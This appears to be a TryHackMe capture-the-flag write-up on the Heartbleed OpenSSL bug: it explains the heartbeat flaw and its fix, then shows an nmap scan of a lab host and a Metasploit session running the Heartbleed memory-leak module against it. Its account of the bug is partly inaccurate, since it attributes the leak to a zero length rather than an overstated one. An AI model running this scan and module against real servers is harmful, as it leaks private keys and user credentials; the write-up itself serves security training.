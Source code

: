 # HeartBleed TryHackMe Writeup

## Background Information

Introduction to Heartbleed and SSL/TLS

On the internet today, most web servers are configured to use SSL/TLS. SSL(secure socket layer) is a predecessor to TLS(transport layer security). The most common versions are TLS 1.2 and TLS 1.3(recently released). Configuring a web server to use TLS means that all communication from that particular server to a client will be encrypted; any malicious third party that has access to this traffic will not be able to understand/decrypt the traffic, and they also will not be able to modify the traffic. To learn more about how TLS connections are established, check 1.2 and 1.3 out.

Heartbleed is a bug due to the implementation in the OpenSSL library from version 1.0.1 to 1.0.1f(which is very widely used). It allows a user to access memory on the server(which they usually wouldn't have access to). This, in turn, allows a malicious user to access different kinds of information(that they wouldn't usually have access to due to the encryption and integrity provided by TLS), including:

Server private key
Confidential data like usernames, passwords, and other personal information
Analyzing the Bug

The implementation error occurs in the heartbeat message that OpenSSL uses to keep a connection alive even when no data is sent. A mechanism like this is important because if a connection dies/resets quite often, it would be expensive to set up the TLS aspect of the connection again; this affects the latency across the internet, and it would make using services slow for users. A heartbeat message sent by one end of the connection contains random data and the data's length; this exact data is sent back when received by the other end of the connection. When the server retrieves this message from the client, here's what it does:

The server constructs a pointer(memory location) to the heartbeat record
It then copies the length of the data sent by a user into a variable(called payload)
The length of this data is unchecked
The server then allocates memory in the form of:
1 + 2 + payload + padding(this can be maximum of 1 + 2 + 65535 + 16)
The server then creates another pointer(bp) to access this memory
The server then copies the payload number of bytes from data sent by the user to the bp pointer
The server sends the data contained in the bp pointers to the user.
With this, you can see that the user controls the amount and length of data they send over. If the user does not send over any data(where the length is 0), it means that the server will copy arbitrary memory into the new pointer(which is how it can access secret information on the server). When retrieving data this way, the data can be different with different responses as the memory on the server will change.

Remediation

To ensure that arbitrary data from the server isn't copied and sent to a user, the server needs to check the length of the heartbeat message:

The server needs to check that the length of the heartbeat message sent by the user isn't 0
The server needs to check the length doesn't exceed the specified length of the variable that holds the data
References:

http://heartbleed.com/
https://www.seancassidy.me/diagnosis-of-the-openssl-heartbleed-bug.html
https://stackabuse.com/heartbleed-bug-explained/

No Answer needed

## Protecting Data in Transit

```
nmap -A -T4 -v -p- 34.255.10.55
22/tcp    open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 e4:99:20:fe:1f:59:c3:eb:2b:ea:43:a2:03:77:d9:f4 (RSA)
|   256 37:81:3e:2e:e1:ee:68:7b:be:df:4e:db:01:f4:b3:22 (ECDSA)
|_  256 49:ab:e1:4b:f6:5b:3b:ad:bf:52:b3:36:cf:8f:a6:a8 (EdDSA)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          50281/udp  status
|_  100024  1          52007/tcp  status
443/tcp   open  ssl/http nginx 1.15.7
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.15.7
|_http-title: What are you looking for?
| ssl-cert: Subject: commonName=localhost/organizationName=TryHackMe/stateOrProvinceName=London/countryName=UK
| Issuer: commonName=localhost/organizationName=TryHackMe/stateOrProvinceName=London/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-02-16T10:41:14
| Not valid after:  2020-02-16T10:41:14
| MD5:   4b3a f45e a597 6f3f 06f6 e9d2 518a c1c4
|_SHA-1: 01e8 fa58 e5a0 5102 d9e3 2ee3 8212 9d28 3934 4d57
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
52007/tcp open  status   1 (RPC #100024)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=4/1%OT=22%CT=1%CU=37257%PV=N%DS=2%DC=T%G=Y%TM=660A1150
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)SEQ(SP=10
OS:1%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3
OS:=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=68DF%W2=6
OS:8DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=FF%W=6903%O=M5B4NNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=FF%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=FF%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=FF%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=FF%CD=S)
```

We already know that there is a vulnerability - HeartBleed.

Let's start `msfconsole`
```
msf6 > search heartbleed
Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/server/openssl_heartbeat_client_memory  2014-04-07       normal  No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
   1  auxiliary/scanner/ssl/openssl_heartbleed          2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak

msf6 > use 1
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 34.255.10.55
RHOSTS => 34.255.10.55
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > run
[HERE YOU WILL FIND THE FLAG]
```
'''
code
'''